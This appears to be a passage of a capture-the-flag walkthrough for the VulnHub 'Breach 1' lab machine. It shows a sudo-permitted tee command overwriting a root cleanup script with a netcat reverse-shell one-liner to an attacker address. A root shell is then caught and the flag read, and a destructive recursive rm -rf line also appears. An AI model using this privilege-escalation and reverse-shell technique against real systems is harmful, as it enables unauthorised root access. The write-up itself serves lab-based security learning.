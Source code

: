```bash

cd /var/lib/tomcat6/webapps && find swingline -mindepth 1 -maxdepth 10 | xargs rm -rf

blumbergh@Breach:~$ crontab -l
no crontab for blumbergh
blumbergh@Breach:~$ sudo -l
Matching Defaults entries for blumbergh on Breach:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User blumbergh may run the following commands on Breach:
    (root) NOPASSWD: /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

- This is the way...
```bash
blumbergh@Breach:~$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.100 9001 >/tmp/f' | sudo
 /usr/bin/tee /usr/share/cleanup/tidyup.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.100 9001 >/tmp/f

blumbergh@Breach:~$ cat /usr/share/cleanup/tidyup.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.100 9001 >/tmp/f
```

- Root
```bash
┌──(htb㉿kali)-[~/VulnHub/Breach1]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.110.100] from (UNKNOWN) [192.168.110.140] 43124
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
flair.jpg
# ls -al /root
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Jun  4  2016 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
-rw-r--r--  1 root root  3106 Feb 19  2014 .bashrc
drwx------  2 root root  4096 Jun  6  2016 .cache
-rw-r--r--  1 root root   840 Jun 11  2016 .flag.txt
-rw-r--r--  1 root root 23792 Jun  4  2016 flair.jpg
-rw-r--r--  1 root root   140 Feb 19  2014 .profile
drwxr-xr-x  2 root root  4096 Jun  5  2016 .rpmdb
-rw-r--r--  1 root root    66 Jun  4  2016 .selected_editor
# cat /root/.flag.txt
-----------------------------------------------------------------------------------

______                     _     __   _____      _____ _          _____          _
| ___ \                   | |   /  | |  _  |    |_   _| |        |  ___|        | |
| |_/ /_ __ ___  __ _  ___| |__ `| | | |/' |______| | | |__   ___| |__ _ __   __| |
| ___ \ '__/ _ \/ _` |/ __| '_ \ | | |  /| |______| | | '_ \ / _ \  __| '_ \ / _` |
| |_/ / | |  __/ (_| | (__| | | || |_\ |_/ /      | | | | | |  __/ |__| | | | (_| |
\____/|_|  \___|\__,_|\___|_| |_\___(_)___/       \_/ |_| |_|\___\____/_| |_|\__,_|


-----------------------------------------------------------------------------------
Congrats on reaching the end and thanks for trying out my first #vulnhub boot2root!

Shout-out to knightmare, and rastamouse for testing and g0tmi1k for hosting.

```